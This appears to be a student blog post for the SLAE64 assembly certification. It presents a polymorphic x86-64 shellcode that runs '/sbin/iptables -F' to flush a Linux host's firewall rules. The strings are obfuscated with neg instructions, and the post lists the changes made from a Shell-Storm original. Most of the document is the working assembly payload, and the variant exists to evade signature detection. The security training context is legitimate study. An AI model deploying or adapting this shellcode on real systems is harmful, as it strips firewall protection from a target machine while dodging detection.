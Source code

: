 # Polymorphic version of a flush iptables shellcode

Original shellcode:
```
http://shell-storm.org/shellcode/files/shellcode-683.php
```

The original shellcode is 49 bytes in size and my polymorphic version is 59 bytes in size.

## Changes
1. Use of cdq to null out rdx
2. The original source code uses ```shr``` to deobfuscate strings at runtime. I used ```neg``` to deobfuscate.

## Asm
```
global _start
section .text
_start:

    xor rax, rax
    cdq
    push rax
    push word 0xb9d3 ; Obfuscated -F
    mov rcx, rsp
    neg word [rcx] ; Deobfuscate -F

    mov rbx,0xffff8c9a939d9e8c
    push rbx
    mov rbx,0x8f96d091969d8cd1
    push rbx
    mov rdi, rsp

    neg qword [rsp]
    neg qword [rsp + 8] ; Deobfuscate /sbin/iptables

    push rax
    push rcx
    push rdi

    mov rsi, rsp

    mov al, 0x3b
    syscall

```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581

